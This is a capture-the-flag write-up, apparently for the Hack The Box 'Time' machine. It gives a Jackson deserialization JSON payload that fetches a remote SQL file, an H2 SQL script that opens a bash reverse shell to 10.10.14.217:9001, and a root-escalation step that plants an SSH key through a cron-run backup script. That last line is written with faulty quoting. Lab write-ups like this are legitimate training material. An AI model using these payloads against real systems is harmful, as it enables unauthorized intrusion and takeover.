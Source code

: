 # time

## nmap

[Scan results][1]

From scan results seems there is a json parser on port 80

## The json parse

The beautify option doesnt work and validate is a beta function. Trying to use the validate form the site return:
`Validation failed: Unhandled Java exception: com.fasterxml.jackson.databind.exc.MismatchedInputException: Unexpected token (START_OBJECT), expected START_ARRAY: need JSON Array to contain As.WRAPPER_ARRAY type information for class java.lang.Object`

After a reasearch we find an [RCE vulnerability for Jackson][2] that we can use to build a modified `inject.sql` to recieve a reverse shell

to upload the revers shell we need to put inside the validation form this payload

```raw
["ch.qos.logback.core.db.DriverManagerConnectionSource",{"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.14.217:8000/inject.sql'"}]
```

inject.sql:

```java
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -i &>/dev/tcp/10.10.14.217/9001 0>&1 &')
```

and we get user `pericles`

## Going Root

Let's get a bit of enumeration by [Linpeas][3]

Seems that the user pericles own the script `/usr/bin/timer_backup.sh`

```bash
#!/bin/bash
zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip
```

Seems that this script can write inside root directory so maybe it's scheduled to run as root we can try to modify to add our ssh key into the authorized and login

```bash
#!/bin/bash
zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip
echo "SSH_PUB_KEY >> /root/.ssh/authorized_keys"
```

![htbbadge](https://www.hackthebox.eu/badge/image/272787)
![achievement](https://www.hackthebox.eu/storage/achievements/aa916215fbb507d8a77cf2606dda7394.png)

[//]: #links
[1]: nmap/time.nmap
[2]: https://github.com/jas502n/CVE-2019-12384
[3]: linpeas.txt
